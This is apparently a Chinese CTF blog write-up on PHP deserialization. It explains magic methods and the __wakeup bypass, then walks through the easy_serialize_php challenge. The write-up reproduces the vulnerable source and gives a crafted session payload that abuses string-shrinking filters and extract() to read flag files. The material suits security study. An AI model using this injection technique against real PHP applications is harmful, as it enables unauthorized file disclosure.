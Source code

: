 ```yaml
---
title: 反序列化
date: 2021-12-28 18:27:29
updated: 2021-12-28 18:27:29
tags: [反序列化]
categories: CTFSHOW
toc: true
---
```

PHP反序列化基本知识
<!-- more -->

### 一、反序列POC

1.魔术方法

`__construct` 当对象创建（new）时会自动调用。但在 unserialize() 时是不会自动调用的。

`__destruct`   当一个对象销毁（反序列化）时被调用

`__sleep()`     在一个对象被序列化的时候调用

`__wakeup()`   在一个对象被反序列化的时候调用

​	**当序列化字符串表示<font color='red'>对象属性个数的数字值大于真实类中属性的个数时</font>就会跳过__wakeup()的执行**

`__call()`       在对象中调用一个不可访问方法时调用

`__get()`         获得一个类的成员变量时调用



2.其他注意点

- cookie中传入的反序列化字符串需要url编码

### 二、反序列化字符串逃逸

https://www.freebuf.com/articles/web/285985.html



### 三、实战

#### [安洵杯 2019]easy_serialize_php

参考：https://www.cnblogs.com/h3zh1/p/12732336.html

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
if($_SESSION){
    unset($_SESSION);
}
$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

注意点：`extract()` 变量覆盖后，SESSION的user和function就不存在了！

此题是过滤后字符数量变少的 反序列化字符串逃逸。在phpinfo里发现了d0g3_f1ag.php.

SESSION现在只有你覆盖进去的键值对和img键值对，所以切入点在POST里传入的参数让反序列化后闭合忽略本身的img

解题心路历程：

```php
<?php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
//ZDBnM19mMWFnLnBocA==    d0g3_f1ag.php
//L2QwZzNfZmxsbGxsbGFn    /d0g3_fllllllag
$_SESSION['flagphp']=';s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}';
$_SESSION['img']='Z3Vlc3RfaW1nLnBuZw==';
echo filter(serialize($_SESSION));

a:2:{s:7:"";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

先找到核心内容：`;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`，然后在键里尝试flag，往后数4位发现闭合不了，而7位正好，闭合成了一个键名，之后再随意添加一个值`;s:1:"1"`进行闭合即可。

读取后发现文件在/d0g3_fllllllag，同理操作即可。
